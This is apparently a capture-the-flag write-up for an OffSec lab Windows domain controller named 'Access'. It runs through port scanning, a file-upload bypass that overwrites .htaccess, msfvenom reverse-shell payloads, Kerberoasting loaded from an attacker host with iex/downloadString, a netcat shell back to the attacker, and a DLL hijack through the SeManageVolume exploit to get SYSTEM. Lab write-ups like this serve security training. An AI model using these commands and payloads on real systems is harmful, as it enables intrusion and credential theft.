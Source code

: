 #Pwned! 
```IP
192.168.232.187
```
## Nmap
```
PORT     STATE SERVICE       REASON          VERSION                                    53/tcp   open  domain        syn-ack ttl 125 Simple DNS Plus                            80/tcp   open  http          syn-ack ttl 125 Apache httpd 2.4.48 ((Win64) OpenSSL/1.1.1k PHP/8.0.7)
|_http-title: Access The Event
|_http-server-header: Apache/2.4.48 (Win64) OpenSSL/1.1.1k PHP/8.0.7
| http-methods: 
|   Supported Methods: HEAD GET POST OPTIONS TRACE
|_  Potentially risky methods: TRACE
|_http-favicon: Unknown favicon MD5: FED84E16B6CCFE88EE7FFAAE5DFEFD34
88/tcp   open  kerberos-sec  syn-ack ttl 125 Microsoft Windows Kerberos (server time: 2024-10-26 10:49:36Z)
135/tcp  open  msrpc         syn-ack ttl 125 Microsoft Windows RPC
139/tcp  open  netbios-ssn   syn-ack ttl 125 Microsoft Windows netbios-ssn
389/tcp  open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
445/tcp  open  microsoft-ds? syn-ack ttl 125
464/tcp  open  kpasswd5?     syn-ack ttl 125
593/tcp  open  ncacn_http    syn-ack ttl 125 Microsoft Windows RPC over HTTP 1.0
636/tcp  open  tcpwrapped    syn-ack ttl 125
3268/tcp open  ldap          syn-ack ttl 125 Microsoft Windows Active Directory LDAP (Domain: access.offsec0., Site: Default-First-Site-Name)
3269/tcp open  tcpwrapped    syn-ack ttl 125
Service Info: Host: SERVER; OS: Windows; CPE: cpe:/o:microsoft:windows
```

## Nmap UDP


# Enumeration

## HTTP
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026125821.png?raw=true)
we bypass the filter in upload image when buying tickets by using any other extension than php
php%20 works but it doesnt execute
.ctp also works but doesnt execute
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133705.png?raw=true)
We create a windows tcp reverse shell
```
msfvenom -p windows/shell_reverse_tcp  LHOST=192.168.45.187 LPORT=443 -f exe -o rev.exe
```
We overwrite the .htaccess file in order to execute the .ctp as php
```
echo "AddType application/x-httpd-php .ctp" > .htaccess
```
we upload all three files rev.exe, run.ctp and the new .htaccess
now when we execute the run.ctp. it will call rev.exe and give us a revshell
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026134026.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241026133617.png?raw=true)
# PrivEsc

## Manual
we are an apache service account
we do not have access to local.txt flag
enumerating domain users we see MSSQL service account
we could ask for a kerberos ticket
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102748.png?raw=true)
with Get-SPN.ps1 we can get the SPN of the MSSQL account

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027102834.png?raw=true)
```
Add-Type -AssemblyName System.IdentityModel
```
```
New-Object System.IdentityModel.Tokens.KerberosRequestorSecurityToken -ArgumentList 'MSSQLSvc/DC.access.offsec'  
iex(new-object net.webclient).downloadString('http://192.168.45.201:80/Invoke-Kerberoast.ps1'); Invoke-Kerberoast -OutputFormat Hashcat
```
we crack the obtained hash and we get
```
trustno1
```
Now we can enum shares again to check if it works
```
 nxc smb 192.168.232.187 -u 'svc_mssql' -p 'trustno1' --shares
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241027112559.png?raw=true)

we downloads invoke-runas script
```
.\Invoke-RunasCs -Username svc_mssql -Password "trustno1" -Command "whoami"
```
```
Invoke-RunasCs svc_mssql trustno1 "C:\xampp\htdocs\uploads\nc.exe 192.168.45.201 45 -e cmd.exe"
```
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216101223.png?raw=true)

https://github.com/CsEnox/SeManageVolumeExploit/releases/tag/public
Running this exploit gives us permissions on 918 entries. Between them we have the following directory:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104138.png?raw=true)
Which previously only administrators had full control:
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216104229.png?raw=true)
We can hijack one of the systems dll and trigger it in order to get a reverse shell. We will do this with Printconfig.dll:
```
msfvenom -a x64 -p windows/x64/shell_reverse_tcp LHOST=192.168.45.216 LPORT=4444 -f dll -o Printconfig.dll
```
We transfer the file to our target machine and copy it to the following directory:
```
copy Printconfig.dll C:\Windows\System32\spool\drivers\x64\3\
```
And then this dll is triggered by the following commands:
```
$type = [Type]::GetTypeFromCLSID("{854A20FB-2D44-457D-992F-EF13785D2B51}")
```
```
$object = [Activator]::CreateInstance($type)
```

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105447.png?raw=true)
![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105437.png?raw=true)

![](https://github.com/bipbopbup/writeups/blob/main/Media/Pasted%20image%2020241216105535.png?raw=true)
## Automated

### Peass
### Mimikatz


